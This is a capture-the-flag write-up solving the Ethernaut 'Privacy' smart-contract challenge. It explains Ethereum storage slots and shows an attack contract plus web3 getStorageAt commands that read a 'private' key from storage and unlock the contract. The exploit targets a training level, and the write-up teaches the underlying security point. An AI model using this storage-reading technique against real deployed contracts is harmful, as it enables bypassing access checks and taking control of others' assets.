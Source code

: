 # Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

Challenge's  message:

>The creator of this contract was careful enough to protect the sensitive areas of its storage. Unlock this contract to beat the level.
Things that might help: - Understanding how storage works - Understanding how parameter parsing works - Understanding how casting works

In this write-up, we will focus on Privacy contract. The contract has several state variables defined. At first, there is a **locked** *boolean* variable which equals true. Secondly, we have an **ID** variable that is a public *uint256* variable that stores the timestamp value when the contract is created. Then, there is two *uint8* type variable and one *uint16* type variable. And there is bytes32 type an private array which has 3 array slots. In the constructor, the contract gets same type an array called **_data**.
Finally, there is a **unlock()** function that gets bytes16 type of an argument named **_key** and it checks if this argument same bytes16 type of **data** array's 2nd slot. If the condation is true, the unlock variable will be false.

In this point, we are clearly see that if someone get the value of the data array's 2nd slot, he easily unlocked the challenge. Well, how do we get this value from the contract? Let's move on.

## Smart Contract's Storage

Each smart contract running in the Ethereum Virtual Machine (EVM) maintains state in its own permanent storage. This storage can be thought of as a very large array, initially full of zeros. Each value in the array is 32-bytes wide, and there are 2256 such values. A smart contract can read from or write to a value at any location. That’s the extent of the storage interface.

<p align="center"><img  height="200" src="https://programtheblockchain.com/storage/storage.png"></p>

For example, we have a basic contract called **StorageTest** which helps us to understand how smart contract's storage works.


```solidity
contract StorageTest {
    uint256 a;
    bytes32 b;
}
```

In the above code:
+ ```a``` is stored at **slot 0**. 
+ ```b``` is stored at **slot 1**.

<p align="center"><img height="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Vault/img/storage.png"></p>

More about  [Smart Contract's Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

## Accessing Private Variabes In Contract's Storage

In solidity, unlike the general idea that someone can't access any private variable from external calls, we can access private variables from contract's storage because of the **_contract's storage open to external calls_**. In this senario, some libraries help us like **_web3_** to attain storage of contracts in blockchain. More about [Accessing Contract's Storage](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)

When you access storage of a contract with web3 library, you should use like this ```web.eth.getStorageAt(contract address,slot index)``` . More about [getStorageAt()](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat)


# Subverting

In the overview , we mentioned that if we get the access of data array'slot values, the challenge will be solved. After get access to private data, the only thing we must do is convert to the 2nd slot value into bytes16 format and send to challenge contract's unlock function. Here is our attack contract helps us to solve the challenge.

```solidity
pragma solidity ^0.8.17;

import './Privacy.sol';

contract Attack{

    Privacy target;

    constructor(address _target){
        target = Privacy(_target);
    }

    function attack(bytes32 _key) external{
        bytes16 key = bytes16(_key);
        target.unlock(key);
    }

}
```

Shortly, our attack contract gets an instance of target contract in constructor. Later, in the attack function, it gets an bytes32 type an argument called **_key** which is retrieve 2nd slots of data array from the target contract and it **converts the argument into bytes16 format**. Finally, it calls the unclock() function with the new key. Let's hack it.

First of all check the locked variable's value.

```shell
await contract.locked()
true
```

Then, retrieve the data from the contract storage even if it was marked as private. There is a small but important point that the state variables were defined differently. This type of definition affects the storage layout location of the variables. In this challenge, the storage location of variables is just like this because of the sizes of the variables in one storage slot:

- Slot 0: *locked*
- Slot 1: *ID*
- Slot 2: *flattening*,*denomination*,*awkwardness*
- Slot 3: *data[0]*
- Slot 4: *data[1]*
- Slot 5: *data[2]* 

I strongly recomended [this article](https://docs.alchemy.com/docs/smart-contract-storage-layout) to understand this case better. To get back our business, we should aim retrieve the 5th slot and send it to the attack function. Time to unlock!

```shell
await web3.eth.getStorageAt("0x9723e4E6B0F5A32329253F55a80f29fFf3ae73d5", 5)
'0x7ec6a7b3fd05ab43951c4d7f2ed28ebdd4e5d435279430a3fd6b0f1df716e32d'
```

<p><img src=""></p>

Lastly, check the locked variable's value. Here we go!

```shell
await contract.locked()
false
```


Ethernaut's message:

> Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's getStorageAt(...) can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

**_by wasny0ps_**

